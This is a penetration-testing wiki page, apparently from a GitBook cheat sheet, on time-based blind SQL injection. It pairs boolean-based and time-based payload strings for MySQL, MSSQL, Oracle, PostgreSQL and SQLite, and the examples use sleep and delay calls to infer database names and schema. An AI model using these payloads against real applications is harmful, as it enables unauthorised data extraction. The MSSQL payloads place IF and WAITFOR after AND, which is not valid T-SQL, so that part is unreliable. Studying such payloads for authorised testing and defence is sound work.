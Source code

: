 # Time Based

## Theory

Time-based SQL injection is a technique that relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to force the database to wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' AND IF (YOUR-CONDITION-HERE, sleep(3),'false')-- -
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Time Based  
1' AND IF ((SELECT LENGTH(database()))=1, sleep(3),'false') -- -
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' AND IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'-- 
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Time Based  
1' AND IF ((SELECT LEN(DB_NAME()))=1) WAITFOR DELAY '0:0:10'-- 
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Time Based  
1' AND CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Time Based  
1' AND CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Time Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE UPPER(HEX(RANDOMBLOB(1000000000/2))) END--
```
{% endtab %}
{% endtabs %}
